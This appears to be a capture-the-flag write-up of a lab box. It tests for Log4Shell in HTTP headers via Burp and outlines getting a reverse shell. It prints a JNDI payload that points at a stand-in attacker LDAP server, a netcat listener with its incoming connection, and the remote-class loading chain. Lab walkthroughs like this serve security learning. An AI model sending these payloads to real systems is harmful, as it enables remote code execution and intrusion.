 # Shell as Docker root
-----------------------

## Testing for log4j


> The Log4shell (CVE-2021–44228) vulnerability affects how Log4j processes log messages. By sending specially crafted messages to a system that uses Log4j, a threat actor can cause the system to load external code, leading to an RCE.
>
> Attackers can take advantage of it by just inserting a line of code like ${jndi:ldap://[attacker_URL]} 



Intercept the request in burp and send it to repeater tab. Set up a netcat listener on your terminal to look for any incoming connections . 

First lets test for log4j on `User-Agent` header.

![burp1](../../assets/img/posts/Lumberjackturtle/burp1.png)

We get a hint in response - `CVE-2021-44228 IN X-Api-Version` .

Testing it again but this time sending out payload in **X-Api-version** header.

![burp2](../../assets/img/posts/Lumberjackturtle/burp2.png)

We dont get any response back which is a good sign .It means we've got a connection back in our netcat session.

```bash
┌──(root💀kali)-[~/thm/Lumberjackturtle]
└─$ sudo nc -lvnp 53
listening on [any] 53 ...
connect to [10.8.106.23] from (UNKNOWN) [10.10.197.211] 50810
0
 `�
```
## RCE using log4j

Now we need to get a shell to move further.

### Exploit 

 _This is how it works_ 

1. When we send the payload `${jndi:ldap://attackerserver:1389/Exploit}` - it reaches out to our LDAP server .
2. The LDAP server forwards the request to our secondary server asking for the resource located at `http://attackerserver:8000/Exploit` .
3. Secondary server serves the `Exploit.class` file.
4. After retreiving , `the victim_server executes the code present in Exploit.class` (which is basically a reverse shell)
5. Once it executes , we get a reverse shell back on our netcat .
